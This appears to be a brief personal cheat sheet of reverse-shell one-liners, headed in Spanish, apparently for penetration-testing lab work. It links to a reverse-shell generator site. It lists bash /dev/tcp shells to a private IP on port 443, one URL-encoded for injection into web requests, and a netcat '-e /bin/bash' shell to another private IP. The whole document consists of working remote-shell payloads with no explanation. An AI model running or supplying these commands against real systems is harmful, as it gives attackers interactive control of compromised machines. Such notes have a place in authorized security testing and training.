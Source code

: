 

##### RECURSO REVERSE SHELL
```url
https://revshells.com
```

# LINUX
```shell
bash -c "bash -i >%26 /dev/tcp/192.168.45.189/443 0>%261"

bash -c "bash -i >& /dev/tcp/192.168.45.189/443 0>&1"

bash -i >& /dev/tcp/192.168.45.189/443 0>&1
```

# NC
```shell
/usr/bin/nc 192.168.45.244 444 -e /bin/bash
```
